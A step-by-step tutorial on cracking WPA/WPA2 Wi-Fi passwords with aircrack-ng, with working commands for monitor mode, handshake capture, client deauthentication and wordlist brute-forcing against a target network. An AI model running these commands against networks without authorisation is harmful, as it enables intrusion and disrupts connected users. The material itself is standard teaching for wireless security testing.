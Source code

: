 ```yaml
---
icon: wifi-slash
---
```


# How to Crack a Wifi - Step byStep

**Disclaimer:** This guide is intended for educational purposes only. Unauthorized access to any network is illegal and unethical. Use this knowledge responsibly and ethically.

This tutorial demonstrates how to crack a Wi-Fi network using a wireless adapter in monitor mode and the `aircrack-ng` suite. Created by @bst04.

***

### 📌 Basic Information

#### 1. Network Protocols

Understanding the protocols used in Wi-Fi networks is essential:

* **WEP (Wired Equivalent Privacy):** An obsolete protocol with significant security flaws.
* **WPA (Wi-Fi Protected Access):** Improved security over WEP but still vulnerable to weak passwords.
* **WPA2:** More secure than WPA, using AES/PSK encryption. Still susceptible to brute-force attacks if weak passwords are used.
* **WPA3:** The latest standard with enhanced protection against brute-force attacks. However, not all networks have adopted it yet.

#### 2. Encryption and Authentication Methods

* **TKIP (Temporal Key Integrity Protocol):** Legacy encryption with dynamic keys per packet; vulnerable to brute-force attacks.
* **AES (Advanced Encryption Standard):** A secure symmetric encryption method widely used in modern Wi-Fi networks.
* **PSK (Pre-Shared Key):** Commonly used for home networks, where a shared key is used for authentication. Vulnerable to brute-force attacks if the password is weak.

***

### 📋 Requirements

Before proceeding, ensure you have the following:

1. **Aircrack-ng Suite:** Installed on your system.
2. **Wireless Adapter Compatible with Monitor Mode:** Ensure your adapter supports packet injection and monitor mode.

***

### 🚀 Step-by-Step Process

#### Step 1: Install Aircrack-ng

If you're not using Kali Linux, you'll need to install the `aircrack-ng` suite. Run the following command in your terminal:

```bash
sudo apt-get update
sudo apt-get install aircrack-ng
```

_Note:_ If you're using Kali Linux, `aircrack-ng` is pre-installed.

***

#### Step 2: Enable Monitor Mode

To capture packets from the target network, your wireless adapter must be in monitor mode. First, identify your wireless interface by running:

```bash
ip addr
```

Once you know the interface name (e.g., `wlan0`), enable monitor mode:

```bash
sudo airmon-ng start [interface]
```

_Example:_\
If your interface is `wlan0`, run:

```bash
sudo airmon-ng start wlan0
```

This will create a new interface, typically named `wlan0mon`.

***

#### Step 3: Scan for Wi-Fi Networks

Use `airodump-ng` to scan for nearby Wi-Fi networks:

```bash
sudo airodump-ng [interface + mon]
```

_Example:_\
If your monitor mode interface is `wlan0mon`, run:

```bash
sudo airodump-ng wlan0mon
```

This will display a list of available networks, including their BSSID (MAC address), channel, and encryption type. Note down the details of the target network.

***

#### Step 4: Capture the Handshake

Focus on the target network by capturing its handshake. Use the following command:

```bash
sudo airodump-ng -c [channel] --bssid [BSSID] -w [output file] [interface + mon]
```

_Example:_\
If the target network is on channel 6 with BSSID `00:11:22:33:44:55`, run:

```bash
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
```

Leave this process running until the handshake is captured. You can verify the capture by checking the output file (`capture-01.cap`).

To speed up the handshake capture, deauthenticate connected clients using `aireplay-ng`:

```bash
sudo aireplay-ng -0 5 -a [BSSID] -c [STATION] [interface + mon]
```

_Example:_\
If the station (connected device) is `66:77:88:99:AA:BB`, run:

```bash
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0mon
```

***

#### Step 5: Crack the Password

Once you have the handshake file, use `aircrack-ng` to attempt cracking the password. Provide a wordlist for brute-forcing:

```bash
sudo aircrack-ng -w [wordlist file] [handshake file]
```

_Example:_\
If your wordlist is `rockyou.txt` and the handshake file is `capture-01.cap`, run:

```bash
sudo aircrack-ng -w rockyou.txt capture-01.cap
```

The tool will try each password in the wordlist until it finds a match or exhausts the list.

***

### 🛠 Tips and Best Practices

1. **Use a Strong Wordlist:** Tools like `hashcat` or online resources provide comprehensive wordlists.
2. **Optimize Your Wireless Adapter:** Ensure your adapter is compatible with packet injection and has good signal reception.
3. **Be Patient:** Cracking strong passwords may take time, depending on the complexity and length of the passphrase.

***

### Conclusion

By following these steps, you can learn how to crack a Wi-Fi network using `aircrack-ng`. Remember to use this knowledge responsibly and within legal boundaries. Happy learning!
